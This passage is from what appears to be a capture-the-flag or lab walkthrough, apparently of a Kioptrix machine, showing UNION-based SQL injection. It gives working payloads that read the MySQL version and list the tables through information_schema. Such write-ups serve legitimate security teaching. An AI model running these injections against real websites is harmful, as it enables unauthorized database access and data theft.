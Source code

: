 From this we can see that the application has 6 columns (read the link above that I posted on how to find this out), and columns 2 and 3 are vulnerable to SQL Injection.

Our next step would be to find out what Version of SQL is running. This will aid us in better formatting our SQL Syntax depending on what SQL Database is being used (NoSQL, MySQL, MSSQL, etc).

So since column 2 is vulnerable, we will be injecting our code in place of __2__ in the URL. Let's go ahead and replace 2 with __@@version__ to get the version. Your syntax should look like below:

```sql
-1 union select 1,@@version,3,4,5,6
```

You should see the website return the following:

<a href="/images/kiop3-7.png"><img src="/images/kiop3-7.png"></a>

SQL Version 5.0.51a is actually MySQL - great, we now know how to better format our SQL Syntax.

Our next step in the SQL Injection would be to find what tables are located in the database. Let's inject the following SQL Query.

```sql
-1 union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema=database()--
```

The website should then return the following:

<a href="/images/kiop3-8.png"><img src="/images/kiop3-8.png"></a>